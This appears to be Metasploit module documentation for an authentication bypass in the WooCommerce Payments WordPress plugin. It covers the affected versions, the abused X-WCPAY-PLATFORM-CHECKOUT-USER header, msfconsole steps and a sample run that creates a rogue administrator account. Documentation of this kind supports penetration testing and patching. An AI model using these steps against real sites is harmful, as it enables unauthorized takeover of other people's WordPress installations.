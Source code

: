## Vulnerable Application
WooCommerce-Payments plugin for Wordpress versions 4.8 prior to 4.8.2, 4.9 prior to 4.9.1,
5.0 prior to 5.0.4, 5.1 prior to 5.1.3, 5.2 prior to 5.2.2, 5.3 prior to 5.3.1, 5.4 prior to 5.4.1,
5.5 prior to 5.5.2, and 5.6 prior to 5.6.2 contain an authentication bypass by specifying a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header. With this authentication bypass, a user can then use the API
to create a new user with administrative privileges on the target WordPress site IF the user ID
selected corresponds to an administrator account.

### Install

Download, install, and activate [woocomerce-payments 5.6.1](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and one does not need to install the main WooCommerce platform itself.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. A new WordPress administrator account should be created.
1. Verify the new account uses the username and password specified in the USERNAME and PASSWORD datastore options respectively.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for a WordPress administrator. Defaults to `1`.

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set username h00die
username => h00die
msf auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set verbose true
verbose => true
msf auxiliary(scanner/http/wp_woocommerce_payments_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create an administrator user -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
